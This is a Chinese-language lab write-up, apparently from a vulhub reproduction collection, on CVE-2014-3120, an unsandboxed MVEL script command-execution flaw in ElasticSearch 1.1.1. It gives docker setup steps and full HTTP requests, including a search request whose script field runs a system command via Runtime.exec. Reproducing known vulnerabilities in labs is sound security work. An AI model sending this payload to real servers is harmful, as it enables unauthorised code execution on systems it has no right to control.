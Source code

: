 （CVE-2014-3120）ElasticSearch 命令执行漏洞
===========================================

一、漏洞简介
------------

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

二、漏洞影响
------------

elasticsearch版本：v1.1.1

三、复现过程
------------

编译及运行环境：

    docker-compose build
    docker-compose up -d

将Java代码放入json中：

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
      }

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "phithon"
    }

然后，执行任意代码：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
    }

结果如图：

![](./resource/(CVE-2014-3120)ElasticSearch命令执行漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2014-3120/
